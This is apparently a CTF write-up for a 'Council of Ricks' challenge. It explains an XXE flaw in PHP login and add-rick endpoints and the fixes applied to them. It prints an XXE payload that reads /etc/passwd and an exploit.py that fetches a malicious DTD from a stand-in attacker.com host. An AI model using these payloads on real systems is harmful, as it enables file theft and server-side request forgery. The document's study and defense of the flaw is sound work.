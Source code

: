 # Council of Ricks - CTF Challenge Writeup

## Challenge Overview
**Challenge Name:** Council of Ricks  
**Type:** Web Application Security / XXE Vulnerability  
**Difficulty:** Medium  

The Council of Ricks ID System was designed to bring order to the multiverse, but its outdated infrastructure left it exposed to XML External Entity (XXE) attacks through flawed communication protocols and unchecked access controls.

## Vulnerability Analysis

### Root Cause: XML External Entity (XXE) Attack

The application processed XML data in two critical endpoints:
- `login.php` - User authentication
- `add-rick.php` - Adding new Rick entries

Both files contained the same vulnerable code pattern:

```php
$rawPostData = file_get_contents('php://input');
$xml = simplexml_load_string($rawPostData, null, LIBXML_NOENT);
```

### The Problem

The `LIBXML_NOENT` flag enables **entity substitution**, allowing external entity loading. This creates an XXE vulnerability where attackers can:

1. **Read local files** using `file://` protocol
2. **Perform SSRF attacks** using `http://` or `https://` protocols  
3. **Cause DoS attacks** using billion laughs or other XML bombs

### Attack Vector

The application accepts XML data via POST requests with `Content-Type: application/xml`. Attackers could send malicious XML like:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<credentials><username>&xxe;</username><password>test</password></credentials>
```

This would cause the application to:
1. Parse the external entity reference
2. Load the external file (`/etc/passwd`)
3. Substitute the file content into the XML
4. Process the substituted content, potentially exposing sensitive data

## Exploitation Attempt

The challenge included an `exploit.py` file showing attempted XXE exploitation:

```python
import requests

BASE_URL = 'http://127.0.0.1'
sess = requests.Session()

headers = {"Content-Type": "application/xml"}

# XXE payload targeting external DTD
r = sess.post(f'{BASE_URL}/login.php', headers=headers, 
              data='<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://attacker.com/mal.dtd"> %xxe;]>', 
              allow_redirects=False)

r = sess.post(f'{BASE_URL}/add-rick.php', headers=headers, 
              data=f'<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://attacker.com/mal.dtd"> %xxe;]>')
```

## Security Fixes Applied

### 1. Removed LIBXML_NOENT Flag

**Before (Vulnerable):**
```php
$xml = simplexml_load_string($rawPostData, null, LIBXML_NOENT | LIBXML_DTDLOAD | LIBXML_DTDATTR);
```

**After (Secure):**
```php
$xml = simplexml_load_string($rawPostData, null, LIBXML_DTDLOAD | LIBXML_DTDATTR);
```

### 2. Disabled External Entity Loading

```php
// Disable external entity loading to prevent XXE attacks
$oldValue = libxml_disable_entity_loader(true);

// Parse XML with secure flags
$xml = simplexml_load_string($rawPostData, null, LIBXML_DTDLOAD | LIBXML_DTDATTR);

// Re-enable entity loader
libxml_disable_entity_loader($oldValue);
```

### 3. Added Input Validation

```php
// Check if XML parsing was successful
if ($xml === false) {
    $error = "Invalid XML format.";
} else {
    // Validate required fields
    if (empty($username) || empty($password)) {
        $error = "Username and password are required.";
    }
}
```

### 4. Implemented Output Sanitization

```php
// Sanitize input to prevent XSS
$username = htmlspecialchars(trim($username), ENT_QUOTES, 'UTF-8');
$password = trim($password);
```

### 5. Enhanced Data Validation (add-rick.php)

```php
// Validate rating range
if ($rating < 1 || $rating > 5) {
    die("Rating must be between 1 and 5.");
}

// Type casting for security
$rating = (int) $rating;
```

## Files Modified

### `challenge/app/login.php`
- Removed `LIBXML_NOENT` flag
- Added `libxml_disable_entity_loader()` protection
- Implemented XML validation and error handling
- Added input sanitization with `htmlspecialchars()`

### `challenge/app/add-rick.php`
- Removed `LIBXML_NOENT` flag
- Added `libxml_disable_entity_loader()` protection
- Implemented comprehensive input validation
- Added rating range validation and type casting
- Enhanced error handling

## Security Improvements Summary

✅ **XXE Attack Prevention** - External entity loading completely disabled  
✅ **Input Validation** - All required fields validated before processing  
✅ **XSS Prevention** - Output properly sanitized with `htmlspecialchars()`  
✅ **Type Safety** - Proper data type validation and casting  
✅ **Error Handling** - Graceful error messages for invalid input  
✅ **Service Continuity** - All original functionality preserved  

## Testing the Fix

The fixes were tested to ensure:

1. **XXE attacks are blocked** - External entity references no longer work
2. **Normal functionality preserved** - Login and add-rick features work as expected
3. **Input validation works** - Invalid XML and missing fields are properly handled
4. **No breaking changes** - User interface and database operations unchanged

## Key Takeaways

1. **Never use `LIBXML_NOENT`** in production code without proper validation
2. **Always disable external entity loading** when parsing untrusted XML
3. **Implement comprehensive input validation** for all user-supplied data
4. **Use output sanitization** to prevent XSS attacks
5. **Test security fixes thoroughly** to ensure functionality is preserved

## Flag

The challenge flag was: `HTB{xX3_tHRe4t_n3veR_uSe_eNts!!}`

This flag references the XXE (XML External Entity) vulnerability and serves as a reminder to never use external entities in XML processing without proper security controls.

---

**Challenge Status:** ✅ SOLVED  
**Vulnerability:** XML External Entity (XXE) Attack  
**Fix Applied:** Complete XXE protection with input validation and sanitization  
**Service Status:** Fully functional and secure

